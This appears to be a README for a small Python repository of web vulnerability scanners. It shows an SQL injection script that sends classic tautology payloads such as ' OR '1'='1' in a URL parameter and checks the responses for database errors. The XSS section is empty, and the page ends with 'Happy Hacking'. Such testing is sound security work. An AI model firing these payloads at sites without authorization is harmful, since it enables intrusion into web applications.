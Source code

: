 =============================================
<BR>
               SQL INJECTION
<BR>
=============================================
Define the URL of the target website:
<br>
url = "http://example.com/vulnerable_page.php"

Define a list of SQL injection payloads to test:
payloads = [
    "' OR '1'='1",
    "' OR '1'='1' -- ",
    "' OR '1'='1' /* ",
    "' OR 1=1-- ",
    "' OR 'a'='a",
    "' OR 'a'='a' -- ",
    "' OR 'a'='a' /* ",
    "1' OR '1'='1",
    "1' OR '1'='1' -- ",
    "1' OR '1'='1' /* "
]

Define a function to test for SQL injection:
def test_sql_injection(url, payloads):
    for payload in payloads:
        # Construct the full URL with the payload
        test_url = f"{url}?id={payload}"

        try:
            # Send the HTTP request
            response = requests.get(test_url)

            # Check if the payload is reflected in the response
            if "SQL" in response.text or "syntax" in response.text or "error" in response.text:
                print(f"Potential SQL injection vulnerability detected with payload: {payload}")
            else:
                print(f"Payload {payload} did not cause an SQL error.")
        except requests.exceptions.RequestException as e:
            print(f"An error occurred: {e}")

Call the function to run the test:
test_sql_injection(url, payloads)



===========================================
                   XSS
===========================================














SQLI.py & XSS.py the script for testing vulnerability on the website with python language.

You can run this script for testing the website with following step:

pip install requirements
<br>
chmod +x filename.py
<br>
python3 filename.py

put target url for checking vulnerable of SQL Injection



Happy Hacking..!!
